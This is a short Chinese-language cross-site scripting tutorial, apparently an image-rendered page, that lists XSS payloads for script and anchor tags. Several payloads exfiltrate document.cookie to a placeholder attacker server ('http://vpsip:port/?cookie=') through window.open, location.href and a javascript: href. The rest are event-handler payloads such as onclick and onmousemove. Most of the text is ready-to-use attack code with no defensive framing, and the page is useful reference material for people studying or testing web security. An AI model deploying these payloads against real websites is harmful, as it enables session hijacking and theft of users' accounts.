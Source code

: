 ```
<script>alert(1)</script>
```

并且该标签可以加载远程的js代码

```
<script src="xx.js"></script>
```

当然打cookie不一定要加载远程的js代码(实质远程的js代码也是把cookie装入请求头并发送到服务器上)，只要把cookie的信息传到vps上即可

注GET请求的参数 + 要编码'%2b'，不然url请求头会把+当做空格

```
<script>window.open('http://vpsip:port/?cookie='+document.cookie)</script>
```

也可以使用如下方法

```
<script>window.location.href='http://vpsip:port/?cookie='+document.cookie</script>
```

其他的大部分标签都是通过包含事件或者属性来达到javascript代码执行的

------

`<a>`

该标签没法直接弹框，必须要用户交互

***利用属性href来实现xss***

```
<a href=javascript:alert(1) >xss</a>
```

对应发送cookie代码

```
<a href=javascript:window.open('http://vpsip:port/?cookie='+document.cookie) >xss</a>
```

或者

```
<a href=javascript:window.location.href='http://vpsip:port/?cookie='+document.cookie >xss</a>
```



***利用事件***

因为`<a>`不是加载文档或者图片的，所以onerror不行

常见的事件有onclick(点击触发),onmousemove(鼠标在组件上面移动触发)

```
<a onclick=alert(1) >xss</a>
```

```
<a onmousemove=alert(1) >xss</a>
```
